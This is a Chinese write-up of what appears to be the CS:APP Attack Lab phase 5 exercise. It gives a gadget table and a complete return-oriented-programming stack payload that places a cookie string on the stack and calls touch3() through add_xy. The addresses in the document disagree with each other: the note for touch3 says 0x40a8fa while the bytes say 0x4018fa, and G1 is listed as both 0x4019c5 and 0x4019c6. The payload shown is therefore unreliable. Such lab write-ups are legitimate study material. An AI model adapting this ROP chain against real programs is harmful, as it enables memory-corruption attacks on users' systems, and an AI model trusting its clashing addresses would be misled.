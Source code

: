先来看看我们有什么Gadgets可用，其中`add_xy`是直接可用的，也是解题的核心

| id  | function   | address  | hex string     | asm                               | note                        |
| --- | ---------- | -------- | -------------- | --------------------------------- | --------------------------- |
| G0  | addval_190 | 0x401a06 | 48 89 e0 c3    | mov %rsp,%rax; retq               | 把%rsp的值复制到%rax        |
| G1  | setval_426 | 0x4019c5 | 48 89 c7 90 c3 | mov %rax,%rdi; nop; retq          | Phase 4的Gadage2            |
| G2  | addval_219 | 0x4019ab | 58 90 c3       | pop %rax; nop; retq               | Phase 4的Gadage1            |
| G3  | getval_481 | 0x4019dd | 89 c2 90 c3    | mov %eax,%edx; nop; retq          | 注意这里是movl，传送低4字节 |
| G4  | getval_159 | 0x401a34 | 89 d1 38 c9 c3 | mov %edx,%ecx; cmp %cl,%cl; retq  | 注意这里是movl，传送低4字节 |
| G5  | addval_189 | 0x401a27 | 89 ce 38 c0 c3 | mov %ecx, %esi; cmp %al,%al; retq | 注意这里是movl，传送低4字节 |
| G6  | add_xy     | 0x4019d6 | 48 8d 04 37 c3 | lea (%rdi,%rsi,1),%rax; retq      | 直接可用                    |

### 解题思路

解题思路是使用某个固定的偏移量把字符串放到%rsp的一个相对地址，然后根据%rsp的值和偏移量计算出绝对地址。

这可以通过调用`add_xy`完成，两个参数（%rdi，%rsi）可通过下面Gadget组合获得
1. (参数1): %rdi
    1. (G0): movq %rsp,%rax
    1. (G1): movq %rax,%rdi
1. (参数2): %rsi
    1. (G2): popq %rax
    1. (G3): movl %eax,%edx
    1. (G4): movl %edx,%ecx
    1. (G5): movl %ecx,%rsi

调用(G6)`add_xy`计算cookie的地址，结果在%eax中。 然后通过(G1)把%eax的值传送到%rdi（参数1）中，最后调用`touch3()`。

### Solution

| address | 7    | 6    | 5    | 4    | 3    | 2    | 1    | 0    | note                                                    |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ------------------------------------------------------- |
| 128     | -    | -    | -    | -    | -    | -    | -    | '\0' | '\0' by Gets()                                          |
| 120     | 0x61 | 0x66 | 0x37 | 0x39 | 0x39 | 0x62 | 0x39 | 0x35 | cookie "59b997fa"                                       |
| 112     | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x18 | 0xfa | touch3(): 0x40a8fa                                      |
| 104     | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xc5 | G1 0x4019c6: %rax -> %rdi                               |
| 96      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xd6 | G6 0x4019d6: lea (%rdi,%rsi,1),%rax                     |
| 88      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x1a | 0x27 | G5 0x401a27: %ecx -> %esi                               |
| 80      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x1a | 0x34 | G4 0x401a34: %edx -> %ecx                               |
| 72      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xdd | G3 0x4019dd: %eax -> %edx                               |
| 64      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x48 | 偏移量 120 - 48 = 72 (0x48)                             |
| 56      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xab | G2 0x4019ab: (%rsp) -> %rax                             |
| 48      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0xc5 | G1 0x4019c6: %rax -> %rdi 这个地址也是1.1里面保存的%rsp |
| 40      | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x1a | 0x06 | G0 0x401a06: %rsp -> %rax                               |
| 32      | -    | -    | -    | -    | -    | -    | -    | -    | getbuf() stack                                          |
| 24      | -    | -    | -    | -    | -    | -    | -    | -    |                                                         |
| 16      | -    | -    | -    | -    | -    | -    | -    | -    |                                                         |
| 8       | -    | -    | -    | -    | -    | -    | -    | -    |                                                         |
| 0       | -    | -    | -    | -    | -    | -    | -    | -    | current %rsp                                            |